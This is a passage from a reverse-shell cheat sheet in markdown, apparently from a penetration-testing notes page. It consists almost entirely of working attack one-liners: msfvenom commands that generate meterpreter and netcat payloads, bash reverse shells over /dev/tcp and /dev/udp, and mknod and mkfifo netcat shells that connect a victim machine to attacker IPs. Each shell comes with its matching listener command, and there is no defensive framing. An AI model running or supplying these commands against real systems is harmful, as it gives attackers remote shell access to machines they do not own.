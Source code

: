 ```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
```

## Bash&#x20;

### Bash Reverse

```
# attacker:
nc -l -p 8080 -vvv

# victim:
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
exec 5<>/dev/tcp/[ip]/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

### Bash UDP

```
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

### mknod Reverse Shell

```
nc -nvlp 6666 → attacker

mknod /tmp/backpipe p; /bin/sh 0< /tmp/backpipe | nc 192.168.56.1 6666 1> /tmp/backpipe → victim
```

## Netcat

```
msfvenom -p cmd/unix/reverse_netcat lhost=0.0.0.0 lport=9999 R → auto generate, can be perl or python instead of netcat

mkfifo /tmp/lnyzdr; nc 0.0.0.0 9999 0</tmp/lnyzdr | /bin/sh >/tmp/lnyzdr 2>&1; rm /tmp/lnyzdr  → host

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

### without -e option

for freeBSD version of netcat without -e (command execution) option:
